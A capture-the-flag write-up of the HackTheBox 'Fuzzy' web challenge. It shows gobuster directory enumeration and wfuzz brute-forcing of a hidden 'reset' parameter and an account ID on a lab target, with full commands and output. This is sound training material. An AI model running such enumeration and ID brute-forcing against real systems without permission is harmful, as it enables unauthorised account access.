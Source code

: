 # Fuzzy (HackTheBox) (WEB-APP Challenge)

Welcome Readers, Today we will be doing the hack the box (HTB) challenge

# Finding the Page

We have this nice website in front of us..

![](Selection_007.png)

<br/>

Let's start off with our basic gobuster..

**Command**

```gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm```

**Command Explanation**
 - -w (wordlist)
 - -t (50 threads)
 - -x (Look for these extensions in the bruteforce)

**OUTPUT**
```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : htm,php,txt,html
[+] Timeout      : 10s
=====================================================
2019/07/11 00:48:35 Starting gobuster
=====================================================
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/api (Status: 301)
```

Now we got an interesting directory named ```api``` let's gobuster this now...

**Command**

```
gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/api/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,txt,html,htm
[+] Timeout      : 10s
=====================================================
2019/07/11 00:50:53 Starting gobuster
=====================================================
/index.html (Status: 200)
/action.php (Status: 200)
```

We found the ```action.php``` Let's see what we have on this one ...

<br/>

![](Selection_008.png)

<br/>

```
Error: Parameter not set
```

So now we need to find the GET parameter which will be used at this endpoint

## Finding the parameter

For this we will use ```wfuzz``` which can be found [here](https://github.com/xmendez/wfuzz)

**Command**
```
wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
```
**Command Explanation**
 - --hh (filter the length of characters in source code)
 - -c   (Output with colors)
 - -w   (Wordlist)
 - FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

```
[sarthak@sarthak tmp]$ wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test 
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000015356:   200        0 L      5 W      27 Ch       "reset"                                                               

Total time: 399.9509
Processed Requests: 20469
Filtered Requests: 20468
Requests/sec.: 51.17877
```

Now we have found our parameter which is ```reset``` let's see what this parameter gives us ...

<br/>

![](Selection_009.png)

<br/>

```
Error: Account ID not found
```

Now we will have to bruteforce the ```Account ID```

## Finding Account ID

We will again use wfuzz for it but this time we will set the character length to 27 (You can find this by simply counting it)...

**Command**

```
wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000000318:   200        0 L      10 W     74 Ch       "20"
```

So we got the account ID let's finalise the url and see what's the output...

```
URL:-http://docker.hackthebox.eu:42566/api/action.php?reset=20
```

### OUTPUT

<br/>

![](Selection_010.png)

<br/>

And we got the flag ..it was a nice little challenge thanx to my friend [stephen](http://web.archive.org/web/20190421032826im_/https://ppfactory.tk/wp-content/uploads/2019/02/IMG_20181231_001959_644.jpg) with whom i solved this challenge :)
<br/>
Thank you guys if you like this writeup stay tuned for more !!
